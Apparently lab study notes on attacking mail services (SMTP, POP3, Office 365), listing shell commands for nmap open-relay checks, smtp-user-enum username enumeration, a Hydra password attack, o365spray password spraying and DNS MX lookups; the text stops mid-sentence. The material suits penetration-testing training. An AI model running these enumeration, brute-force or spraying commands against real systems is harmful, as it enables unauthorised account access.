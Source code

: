 With this setting, the SMTP server can send fake emails, initiating communication between multiple parties. Additionally, another attack vector is email spoofing, where the attacker can send emails that appear to be from a legitimate source and potentially intercept and read the email content.

# Footprinting

```shell-session
$ sudo nmap 10.129.14.128 -sC -sV -p25
```
```shell-session
$ sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v
```
```shell-session
$ smtp-user-enum -M VRFY -u list.txt -t 10.129.32.56 -w 15 -v

```
```shell-session
$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```
#### Hydra - Password Attack
```shell-session
$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```
#### O365 Spray
```shell-session
$ python3 o365spray.py --validate --domain msplaintext.xyz
```
```shell-session
$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```
```shell-session
$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

--------------------------------------------------------------------
#### Host - MX Records
```shell-session
$ host -t MX hackthebox.eu
```
```shell-session
$ host -t MX microsoft.com
```
#### DIG - MX Records
```shell-session
$ dig mx plaintext.do | grep "MX" | grep -v ";"
```
```shell-session
$ dig mx inlanefreight.com | grep "MX" | grep -v ";"
```
#### Host - A Records
```shell-session
$ host -t A mail1.inlanefreight.htb.
```
If we are targetting a custom mail server implementation such as `inlanefreight.htb`, we can enumerate the following ports:

